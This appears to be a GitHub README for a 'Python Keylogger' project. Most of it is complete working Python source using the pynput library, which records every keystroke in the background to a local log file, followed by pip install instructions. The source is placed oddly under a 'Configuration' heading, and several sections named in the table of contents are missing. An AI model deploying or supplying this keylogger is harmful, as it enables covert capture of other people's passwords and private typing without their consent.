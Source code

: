 <p align="center">
  <img src="https://img.shields.io/github/license/yourusername/python-keylogger?color=blue" alt="License">
  <img src="https://img.shields.io/github/stars/yourusername/python-keylogger" alt="Stars">
  <img src="https://img.shields.io/github/forks/yourusername/python-keylogger" alt="Forks">
</p>

<h1 align="center">Python Keylogger</h1>

<p align="center">
  <strong>A simple keylogger implemented in Python using the <code>pynput</code> library.</strong>
</p>

---

## Table of Contents

- [Features](#features)
- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)


---

## Features

- Captures keystrokes in the background.
- Logs keystrokes to a text file.
- Supports filtering out certain keystrokes (e.g., space, shift, control).

## Configuration
from pynput.keyboard import Listener

def write_to_file(key):
    letter = str(key)
    letter = letter.replace("'", "")

    if letter == 'Key.space':
        letter = ' '
    elif letter == 'Key.shift_r':
        letter = ''
    elif letter == 'Key.ctrl_l':
        letter = ''

    with open("log.txt", 'a') as f:
        f.write(letter)

with Listener(on_press=write_to_file) as l:
    l.join()


## Prerequisites

- Python 3.x installed on your system.
- Required Python packages can be installed via pip:

  ```bash
  pip install pynput
